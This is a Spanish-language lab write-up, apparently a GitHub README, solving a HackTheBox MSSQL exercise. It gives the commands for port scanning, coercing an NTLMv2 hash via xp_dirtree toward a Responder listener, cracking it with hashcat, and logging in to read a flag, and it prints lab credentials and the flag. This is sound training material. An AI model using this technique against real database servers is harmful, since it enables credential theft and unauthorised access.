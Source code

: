 # Laboratorio MSSQL 🅱

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    <img src="./assets/MSSQL/01-Ports.PNG">
</p>

---

Nos conectamos al servicio **MSSQL** con las credenciales que nos proporciona HackTheBox `htbdbuser:MSSQLAccess01!`

* `impacket-mssqlclient htbdbuser@[IP]`

---

Si exploramos en la base de datos vemos que nos tenemos acceso a `flagDB`, así que primero, tenemos que convertirnos en el usuario **`mssqlsvc`**, para esto extraeremos su hash.

1. Usamos **responder**: `responder -I tun0`
2. Ejecutamos el siguiente comando en MSSQL: `EXEC master..xp_dirtree '\\[Tun0 IP]\share'`

Ahora tenemos el hash NTLMv2 de `mssqlsvc`

<p align="center">
    <img src="./assets/MSSQL/02-Hash.PNG">
</p>

3. Lo crackeamos con **`hashcat`**

* `hashcat -a 3 -m 5600 hash /home/kali/Desktop/rockyou.txt`

**Output**
```
Candidates.#1....: princess1 -> princess1
```

---

4. Ahora nos logueamos en MSSQL con las nuevas credenciales `mssqlsvc:princess1`

* `impacket-mssqlclient mssqlsvc@[IP] -windows-auth`


* Listamos las bases de datos
    * `SQL> SELECT name from sys.databases;`


    ```
    master
    tempdb
    model
    msdb
    hmaildb
    flagDB 
    ```

* Seleccionamos `flagDB`
  * `USE flagDB;`

* Listamos las tablas
  * `SELECT * FROM INFORMATION_SCHEMA.TABLES;`

    ```
    tb_flag
    ```

* Mostramos todos los registros de esa tabla
    * `SELECT * FROM tb_flag;`

    `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`